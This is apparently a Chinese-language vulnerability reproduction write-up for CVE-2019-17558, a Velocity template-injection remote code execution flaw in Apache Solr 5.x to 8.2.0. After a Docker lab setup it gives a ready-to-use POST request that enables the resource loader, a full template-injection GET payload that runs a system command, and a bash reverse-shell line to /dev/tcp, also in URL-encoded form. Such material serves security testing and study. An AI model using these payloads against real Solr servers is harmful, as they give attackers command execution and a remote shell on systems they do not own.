



# Apache Solr Velocity模板远程执行 CVE-2019-17558

## 漏洞描述
2019年10月末，GitHub代码中安全研究员S00pY发布一个Apache Solr Velocity模版注入远程命令执行的POC，发现网络上出现针对Apache Solr服务器的远程代码执行漏洞。该漏洞是由于Velocity模板存在注入所致（Velocity是一个基于Java的模板引擎，可让使用者通过模板语言引用Java中定义的对象）。攻击者在知道Solr服务器上Core名称后，先把params.resource.loader.enabled设置为true（就可加载指定资源），再进行远程执行命令。

## 影响版本
<a-checkbox checked>Apache Solr 5.x 至 8.2.0</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d
```

创建一个solr核心test
```shell
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现
打开后获取 Core 信息



访问Core的config配置信息时，通过POST请求把`params.resource.loader.enabled`设置为 True，再通过精心构造的get请求即可RCE，此时用户就可以加载指定资源，构造一个能执行命令的恶意请求

设置`params.resource.loader.enabled为True`



```shell
POST /solr/test/config HTTP/1.1
Host: 

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

再使用POC造成命令执行

```shell
/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```



反弹hell，因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
```

POC需要`Urlencoding`进行编码才能绕过

```
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

